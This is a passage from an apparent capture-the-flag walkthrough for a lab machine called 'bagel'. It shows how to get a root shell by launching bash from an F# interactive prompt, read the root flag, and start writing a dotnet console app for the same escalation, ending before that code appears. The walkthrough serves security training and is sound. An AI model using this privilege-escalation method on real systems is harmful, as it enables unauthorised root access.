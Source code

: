 

For whatever reason, F# needs `;;` to end this line.

I can do the same thing and invoke `bash`:



    > System.Diagnostics.Process.Start("bash").WaitForExit();;
    [root@bagel developer]#



From there, grab the flag:



    [root@bagel developer]# cd /root/
    [root@bagel ~]# cat root.txt
    7ca14c4d************************



#### Execution via New Project

For fun, I'll show how to create a fill C# application instead of
running it from the F# terminal. I'll create a directory,
`/dev/shm/exploit`, and go into it. From there, I'll create a new
project with `dotnet`:



    [developer@bagel exploit]$ dotnet new console 
    The template "Console App" was created successfully.

    Processing post-creation actions...
    Running 'dotnet restore' on /dev/shm/exploit/exploit.csproj...
      Determining projects to restore...
      Restored /dev/shm/exploit/exploit.csproj (in 163 ms).
    Restore succeeded.

    [developer@bagel exploit]$ ls
    exploit.csproj  obj  Program.cs



This creates a `.csproj` file, a starter `Program.cs`, and an `obj`
directory. The source is a simple Hello World:



    // See https://aka.ms/new-console-template for more information
    Console.WriteLine("Hello, World!");



It runs:



    [developer@bagel exploit]$ dotnet run
    Hello, World!



I'll update `Program.cs` to invoke a shell just as I did above:
